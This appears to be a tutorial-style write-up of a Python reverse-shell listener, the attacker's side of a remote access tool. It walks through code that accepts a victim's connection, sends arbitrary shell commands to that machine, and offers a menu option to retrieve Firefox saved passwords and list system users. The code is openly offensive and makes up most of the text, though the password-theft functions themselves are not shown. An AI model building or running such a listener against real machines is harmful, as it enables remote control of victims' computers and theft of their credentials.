 ## Listener class

```python
class Listener:

    def __init__(self, ip, port):
        self.ip = ip
        self.options = {"get users": "List system valid users (Gmail)", "help": "Show this help panel", "firefox": "Get firefox browser passwords"}
        self.server_process = None

        server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        server_socket.bind((ip, port))
        server_socket.listen()

        print(colored(f"\n[+] Listening for incoming connections...\n", 'green'))

        self.client_socket, client_address = server_socket.accept()

        print(colored(f"\n[+] Connection established by {client_address}\n", 'yellow'))
```
We create the **__init__()** method: in the Listener class, I create attributes that are instantiated in the Listener class: self.ip = ip, self.options = options, self.server_process =None. And objects so that the connection can be established.

In the objects one line is important:

```python
server_socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
```
This code reutlizes the connection in case it closes, so that we have no problems.

## Send Command

```python
def command_remotely(self, command):
        self.client_socket.send(command.encode())
        return self.client_socket.recv(2048).strip().decode('cp850')
```

This function is to send the command that has been entered by the user running this program.

## Run

```python
def run(self):
        while True:
            command = input(colored(">> ", 'green'))
            if command == "get users":
                self.get_user(command)
            elif command == "firefox":
                self.get_firefox_passwords()
            elif command == "help":
                self.help_panel()
            else:
                command_output = self.command_remotely(command)
                print(command_output)
```
